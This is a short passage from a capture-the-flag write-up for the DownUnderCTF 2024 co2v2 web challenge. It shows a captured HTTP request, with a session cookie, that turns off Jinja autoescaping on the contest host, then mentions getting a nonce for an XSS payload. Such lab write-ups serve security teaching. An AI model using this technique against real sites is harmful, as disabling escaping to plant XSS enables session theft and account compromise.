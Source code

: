 ![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2024/images/Pasted%20image%2020240709175429.png)

- Update Jinja environment's `autoescape` attribute

```http
POST /admin/update-accepted-templates HTTP/2
Host: web-co2v2-bf232bafe3979c0d.2024.ductf.dev
Cookie: session=.eJwlzssNwjAMANBdcuZgx5_GLIPs2BFcW3pC7A6IAZ70Xu229jru7frcz7q02yPbtQUDuBAQ2cIhNeZin-aoPS20Wzh3FSzWDCjm6FwZPir77OghGT_i2JOQFGKA6BDQKU4EkTotS2aNTdl8MdbMZbWRbR6jfSPnUft_g-39Ad-_MBE.Zoz09Q.LpfMqtgQWdTNmul74tzeLx41pjU
Content-Type: application/json
Content-Length: 27

{
    "policy":"strict"
}
```

- Get a valid nonce for our XSS payload
